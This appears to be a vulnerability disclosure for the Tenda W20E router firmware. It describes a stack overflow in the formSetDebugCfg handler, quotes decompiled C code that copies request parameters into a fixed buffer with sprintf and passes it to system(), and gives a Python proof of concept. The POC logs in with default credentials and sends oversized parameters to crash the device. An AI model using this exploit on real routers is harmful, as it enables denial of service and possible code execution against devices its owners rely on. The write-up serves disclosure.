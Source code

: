 ## * Tenda W20E stack vulnerability

### * Version

V15.11.0.6 (US_W20EV4.0br_V15.11.0.6(1068_1546_841)_CN_TDC)

### * Firmware
[https://www.tenda.com.cn/download/detail-2707.html](https://www.tenda.com.cn/download/detail-2707.html)




### * Vulnerability Detail

In function formSetDebugCfg, the content obtained by the program from the parameter "enable", "level" and "module" are passed to pcVar1 and pcVar3, 
and then the pcVar1, pcVar2 and pcVar3 are directly copied into the cmd stack through the sprintf function.
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.


```c
void formSetDebugCfg(webs_t wp,char_t *pPath,char_t *pQuery)

{
  char *pcVar1;
  char *pcVar2;
  char *pcVar3;
  char cmd [128];
  char *pModule;
  char *pLevel;
  char *pEnable;
  
  memset(cmd,0,0x80);
  pcVar1 = websGetVar(wp,"enable","2");
  pcVar2 = websGetVar(wp,"level","2");
  pcVar3 = websGetVar(wp,"module","httpd");
  sprintf(cmd,"echo enable=%s level=%s > /var/debug/%s",pcVar1,pcVar2,pcVar3);  //here is overflow
  system(cmd);
  outputToWebs(wp,cmd);
  return;
}


### * POC

```python
import requests

cmd  = b'enable=' + b'A' * 800 
cmd += b'&level='+ b'A' * 800
cmd += b'&module='+ b'A' * 800

url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/setDebugCfg/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()


```


```
